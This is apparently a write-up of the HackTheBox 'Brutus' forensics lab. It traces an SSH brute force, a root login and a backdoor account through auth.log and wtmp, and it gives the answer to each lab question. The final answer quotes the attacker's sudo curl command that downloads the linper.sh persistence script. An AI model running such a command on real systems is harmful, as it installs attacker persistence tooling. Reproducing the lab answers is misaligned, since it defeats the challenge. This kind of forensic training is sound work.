







# Brutus

Find the Sherlock [here.](https://app.hackthebox.com/sherlocks/Brutus)

## Description
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

| Difficulty  | Category |
| ----------- | -------- |
| Very Easy   | DFIR     |

**Skills learned:**
* Log analysis
* Wtmp analysis

**File attachment(s):**
```text
Brutus.zip
├── auth.log
└── utmp.py
└── wtmp
```

## Extra step required for Linux machines
We are given a python script `utmp.py` which parses the wtmp file and creates an output file that can be read on Linux machines.

Run the script using:
```
python3 wtmp.py -o [output filename] wtmp
```

Confirm the output file can be read: `cat [output filename]`



## Questions
**1. Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

Open the auth.log file and search for several suspicious login attempts from the same IP address.



**Answer: 65.2.161.68**

**2. The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

Now that we know the malicious IP address, search for successful authentications in the auth.log from this IP.



**Answer: root**

**3. Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

Search the wtmp logs we parsed earlier, looking for events involving the root user and the malicious IP.

```
"USER"  "2549"  "pts/1" "ts/1"  "root"  "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 01:32:45"   "387923"        "65.2.161.68"
```

Convert the timestamp in the log file to UTC for the answer.

**Answer: 2024-03-06T06:32:45**

**4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

Re-examine the auth.log file, looking for SSH session creation around the time found from question 3. The SSH session number can be found in the log.



**Answer: 37**

**5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

In the auth.log file, search for the term **useradd** to find instances where new users are created.



**Answer: cyberjunkie**

**6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

The MITRE ATT&CK technique seen here is **Create Account** and the sub-technique is **Local Account**, meaning a new local user was created on the compromised machine. This sub-technique's documentation can be found [here](https://attack.mitre.org/techniques/T1136/001/).

**Answer: T1136.001**

**7. What time did the attacker's first SSH session end according to auth.log?**

From question 4 we know the malicious SSH session number, so we must search the auth.log file to see when this session was closed.



**Answer: 2024-03-06 06:37:24**

**8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

Any commands executed using sudo are logged in the auth.log file, so search this file for the keyword **command** to find the full command used.



**Answer: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh**